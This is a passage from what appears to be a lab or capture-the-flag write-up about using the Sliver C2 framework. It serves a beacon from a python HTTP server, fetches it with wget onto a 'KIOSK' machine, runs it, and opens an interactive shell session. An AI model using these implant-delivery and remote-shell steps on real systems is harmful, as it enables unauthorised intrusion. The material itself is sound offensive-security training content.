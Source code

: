     - You can also enter:
    
    ```bash
    [client] sliver > help http
    ```
    
    - To get more info on the specific command
- Ok so our beacon is generated, our http listener is running, we have an initial foothold on the KIOSK now we need to upload our beacon to the Linux machine:
    - I just setup a python server in the same directory where the beacons are located:
    
    ```bash
    python3 -m http.server 8000
    ```
    
    - On the KIOSK machine we enter:
    
    ```bash
    wget http://MACHINE_IP:PORT/NAME_OF_BEACON
    ```
    
- From there we execute the beacon:
    
    ```bash
    specter@VISITOR-KIOSK:~/chainlit$ ./NAME_OF_BEACON &
    ```
    
    - The session will hang so best to run in background
    - On the server you will see a new session created
- To connect to the session we enter:
    
    ```bash
    sessions 
    ```
    
    - We will be able to view the current session running on the server:
        
        ![vmware_TtZeTp4y5m.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/917dae18-690d-4b9f-9c2d-d0631eda5688/7e1ac740-fa51-4dac-87c5-9164b6c9da94/vmware_TtZeTp4y5m.png)
        
- To use a session enter the use command and the ID of the session:
    
    ```bash
    use SESSION_ID
    ```
    
- Then we will have a connection to the KIOSK machine:
    - To spawn an interactive mode we use:
    
    ```bash
    shell
    ```
    
    - Note this is bad OPSEC meaning detection mechanisms will catch or log this activity, not recommended in real world scenarios, but I think its ok for now.
- We can continue enumerating the KIOSK machines and now that we have a Linux machine that can interact with the RND network we can also use Linux scripts for further enumeration on the Windows machines.
    - A side mission of mine is to try to get root access on the KIOSK machine.
- Using the specter user I executed the following:
    